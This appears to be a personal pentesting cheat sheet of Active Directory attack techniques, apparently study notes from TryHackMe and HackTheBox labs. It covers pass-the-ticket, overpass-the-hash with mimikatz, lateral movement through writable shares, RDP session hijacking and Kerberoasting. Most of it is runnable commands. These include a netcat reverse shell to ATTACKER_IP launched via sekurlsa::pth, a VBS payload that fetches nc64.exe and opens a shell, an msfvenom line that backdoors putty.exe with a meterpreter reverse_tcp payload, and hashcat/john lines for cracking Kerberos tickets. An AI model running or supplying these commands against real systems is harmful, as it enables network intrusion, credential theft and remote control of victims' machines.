   - Login
    - KRB4CCNAME=ticket.ccache psexec.py -k -no-pass support.htb/administrator@dc.domain.htb


### Overpass-the-hash / pass-the-key
- applied to kerberos
- we need a key ==> we dont need password
- privilege::debug
- sekurlsa::ekeys
  
- Reverse sheel:
  - sekurlsa::pth /user:Administrator /domain:za.tryhackme.com [/rc4/aes128/aes256]:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

#### Abusing Behaviour
- find writables shares + put file with payload
```
# .vbs
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True

# .exe
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe

# no logged off RDP session
PsExec64.exe -s cmd.exe
query user
tscon SESSION_ID /dest:rdp-tcp#6

From Windows 2019 only with password
```
## Responder
https://www.a2secure.com/blog-en/how-to-use-responder-to-capture-netntlm-and-grab-a-shell/


## Attacks

### Kerberoasting
- Goal: Obtain hash
- Service Principal Name (SPN)
  - accounts with SPN (service-accounts)
- Idea:
  - TGS: encrypted with the NTLM hash
  - Attack: obtain ticket + offline hash crack
  
- Path
```
# Extract ticket
cme | nxc ldab --kerberoasting kerberoasting.out 
rubeus.exe kerberoast /outfile:spn.txt = ticket for all user

# Crack hash
hashcat -m 13100
john hash --format=krb5ts --pot=results.pot
```
